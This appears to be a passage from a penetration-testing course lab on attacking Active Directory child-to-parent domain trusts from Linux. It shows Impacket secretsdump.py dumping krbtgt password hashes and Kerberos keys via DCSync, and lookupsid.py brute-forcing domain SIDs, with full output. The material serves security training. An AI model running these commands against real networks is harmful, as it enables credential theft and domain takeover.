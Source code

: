 # Attacking Domain Trusts - Child -> Parent Trusts - from Linux

---

We can also perform the attack shown in the previous section from a Linux attack host. To do so, we'll still need to gather the same bits of information:

- The KRBTGT hash for the child domain
- The SID for the child domain
- The name of a target user in the child domain (does not need to exist!)
- The FQDN of the child domain
- The SID of the Enterprise Admins group of the root domain

Once we have complete control of the child domain, `LOGISTICS.INLANEFREIGHT.LOCAL`, we can use `secretsdump.py` to DCSync and grab the NTLM hash for the KRBTGT account.

#### Performing DCSync with secretsdump.py

Attacking Domain Trusts - Child -> Parent Trusts - from Linux

```shell-session
swmpdnky@htb[/htb]$ secretsdump.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240 -just-dc-user LOGISTICS/krbtgt

Impacket v0.9.25.dev1+20220311.121550.1271d369 - Copyright 2021 SecureAuth Corporation

Password:
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:9d765b482771505cbe97411065964d5f:::
[*] Kerberos keys grabbed
krbtgt:aes256-cts-hmac-sha1-96:d9a2d6659c2a182bc93913bbfa90ecbead94d49dad64d23996724390cb833fb8
krbtgt:aes128-cts-hmac-sha1-96:ca289e175c372cebd18083983f88c03e
krbtgt:des-cbc-md5:fee04c3d026d7538
[*] Cleaning up...
```

Next, we can use [lookupsid.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/lookupsid.py) from the Impacket toolkit to perform SID brute forcing to find the SID of the child domain. In this command, whatever we specify for the IP address (the IP of the domain controller in the child domain) will become the target domain for a SID lookup. The tool will give us back the SID for the domain and the RIDs for each user and group that could be used to create their SID in the format `DOMAIN_SID-RID`. For example, from the output below, we can see that the SID of the `lab_adm` user would be `S-1-5-21-2806153819-209893948-922872689-1001`.

#### Performing SID Brute Forcing using lookupsid.py

Attacking Domain Trusts - Child -> Parent Trusts - from Linux

```shell-session
swmpdnky@htb[/htb]$ lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240 

Impacket v0.9.24.dev1+20211013.152215.3fe2d73a - Copyright 2021 SecureAuth Corporation

Password:
[*] Brute forcing SIDs at 172.16.5.240
[*] StringBinding ncacn_np:172.16.5.240[\pipe\lsarpc]
[*] Domain SID is: S-1-5-21-2806153819-209893948-922872689
500: LOGISTICS\Administrator (SidTypeUser)
501: LOGISTICS\Guest (SidTypeUser)
502: LOGISTICS\krbtgt (SidTypeUser)
512: LOGISTICS\Domain Admins (SidTypeGroup)
513: LOGISTICS\Domain Users (SidTypeGroup)
514: LOGISTICS\Domain Guests (SidTypeGroup)
515: LOGISTICS\Domain Computers (SidTypeGroup)
```